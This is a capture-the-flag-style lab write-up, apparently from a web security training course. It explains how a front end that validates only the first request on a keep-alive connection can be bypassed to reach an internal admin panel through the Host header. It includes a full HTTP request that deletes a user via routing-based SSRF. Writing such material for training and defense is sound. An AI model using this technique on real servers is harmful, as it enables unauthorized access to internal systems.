 Title: Host validation bypass via connection state attack
Level: PRACTITIONER
Desc:  This lab is vulnerable to routing-based SSRF via the Host header. Although the front-end server may initially appear to perform robust validation of the Host header, it makes assumptions about all requests on a connection based on the first request it receives.
To solve the lab, exploit this behavior to access an internal admin panel located at 192.168.0.1/admin, then delete the user carlos. 

# Theory:
For example, you may occasionally encounter servers that only perform thorough validation on the first request they receive over a new connection. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection. 

# Walkthrough: 
I have created a group of requests, first requests have standard Host header, second try to make SSRF attack.
First in group:
<img width="1118" height="631" alt="image" src="https://github.com/user-attachments/assets/128780f9-b63d-4506-9827-8886e392e460" />

Second in group:
<img width="1239" height="732" alt="image" src="https://github.com/user-attachments/assets/aef4adea-6bf0-4a75-afd5-f27a1d5ed791" />

I changed second request to: 
```
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Length: 53

username=carlos&csrf=vc572ZERm2LWkZSJYXqbcQsFo0dBEt2o
```

And sending it gave me what I wanted.
